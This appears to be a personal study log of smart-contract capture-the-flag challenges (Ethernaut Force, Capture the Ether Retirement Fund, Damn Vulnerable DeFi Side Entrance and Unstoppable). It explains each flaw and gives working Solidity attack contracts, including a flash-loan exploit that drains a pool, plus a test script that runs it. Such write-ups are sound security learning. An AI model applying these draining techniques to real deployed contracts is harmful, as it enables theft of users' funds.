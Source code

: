 
## Day 10-12 flawed or mixed accounting

### Ethernaut #7 Force

There is an empty contract called Force, and the objective of this exercise is to make the contract have a non-zero balance.  We cannot send to the contract directly to the contract because it has no receive() or fallback methods.  We can however create a self-destructing contract to send the remaining ether.  

```Java
contract Attacker {
    function attack(address payable victimAdd) payable external {
        require(msg.value > 0, "need to send ETH for attack");
        selfdestruct(victimAdd);
    }
}
```

### Capture the Ether Retirement fund 

The given contract is meant to force someone to save for retirement.  What it does is lock up Ether for 10 years, and if any is withdrawn 10% will be sent to a beneficiary.  It is not explicitly stated what is the objective of this challenge.  I beleive it is to remove the ether without incuring a penalty.  

Let's look at the collectPenalty() method.  

```Java
    function collectPenalty() public {
        require(msg.sender == beneficiary);

        uint256 withdrawn = startBalance - address(this).balance;

        // an early withdrawal occurred
        require(withdrawn > 0);

        // penalty is what's left
        msg.sender.transfer(address(this).balance);
    }
```

This can only called by the beneficiary - fine, and it will revert if withdrawn is zero.  So calling this right after the contract is deployed will revert.  One thing to note is that this is written for Solidity 0.4.21, which has no overflow/underflow checks.  We can send some ether to the contract and the subtraction will cause an underflow which will make withdrawn nonzero.  

A contract to do a selfdestruct() attack is given below, it is similar to that in the previous challenge but it was written for Solidity 0.4.21.  

```Java
contract Attacker {
    function attack(address victimAdd) payable external {
        require(msg.value > 0);
        selfdestruct(victimAdd);
    }
}
```


### Damn Vulnerable Defi #4 Side Entrance

This contract is a pool that allows anyone to deposit ETH and withdraw it at any point in time.  It has 1000 ETH deposited, and is offering free flash loans using the deposited ETH.  The objective is after starting with 1 ETH in balance to take all the ETH from the pool.  The contract was written in Solidity 0.8.0.  Some relevant parts of the Pool are shown below: 

```Java
    function deposit() external payable {
        unchecked {
            balances[msg.sender] += msg.value;
        }
        emit Deposit(msg.sender, msg.value);
    }

    function flashLoan(uint256 amount) external {
        uint256 balanceBefore = address(this).balance;

        IFlashLoanEtherReceiver(msg.sender).execute{value: amount}();

        if (address(this).balance < balanceBefore)
            revert RepayFailed();
    }
```

One possible way we can attack this is to take out a flash loan and then deposit the loaned amount back to the contract.  The ```deposit()``` function will cretid the sender with the full loan value, and ```flashLoad()``` will also be satisified because the balance of the contract will be the same.  

A contract was written to exploit this vunerability.  The contract is given below.  

```Java

contract SideEntranceAttack is IFlashLoanEtherReceiver {

    SideEntranceLenderPool pool;

    constructor(address _poolAddress){
        pool = SideEntranceLenderPool(_poolAddress);
    }

    // function to remove funds from contract
    function withdraw() external {
        // send funds to msg.sender
        (bool sent,) = payable(msg.sender).call{value:address(this).balance}("");
        require(sent, "Failed to send Ether");
    }

    function attack() external {
        pool.flashLoan(1000 ether);
        pool.withdraw();
    }

    function execute() external payable {
        // call deposit() on the pool
        pool.deposit{value: msg.value}();
    }

    receive() external payable{
    }
}
```
The only other detail is that the contract needs a ```withdraw()``` method to send the stolen funds to the player.  

The Javascript to call this is given below: 

```Javascript

    it('Execution', async function () {
        /** CODE YOUR SOLUTION HERE */
        // get Attacking contract
        const AttackerFactory = await ethers.getContractFactory("SideEntranceAttack");
        const attackerContract = await AttackerFactory.connect(player).deploy(pool.address);

        // get a flash loan from the pool, this needs to be sent from an attacking contract.  
        await attackerContract.connect(player).attack();

        // widthdraw funds
        await attackerContract.connect(player).withdraw();
    });
```

### Damn Vulnerable Defi #1 Unstoppable

THis challenge is another flash loan vault. It offers free flash loans during a grace period.  The challenge is to make the vault stop offering flash loans.  The flash loan contract is quite large, however in the ```flashLoan()``` method there are a number of contiions which will cause the call to revert.  One of them is reverts with ```InvalidBalancve()```.  The code for it is given below: 

```Java
if (convertToShares(totalSupply) != balanceBefore) revert InvalidBalance(); // enforce ERC4626 requirement
```

Perhaps we can send some of our 10 initial tokens to the vault to cause this to fail every time.  